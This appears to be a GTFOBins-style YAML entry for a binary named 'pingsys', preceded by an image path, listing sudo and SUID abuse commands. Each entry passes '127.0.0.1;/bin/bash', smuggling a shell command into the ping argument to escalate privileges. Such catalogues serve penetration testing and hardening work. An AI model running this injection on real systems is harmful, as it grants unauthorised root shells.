 ```yaml
---
functions:
  sudo:
      code: |
        sudo pingsys '127.0.0.1;/bin/bash'
  suid:
      code: |
        pingsys '127.0.0.1;/bin/bash'
---
```

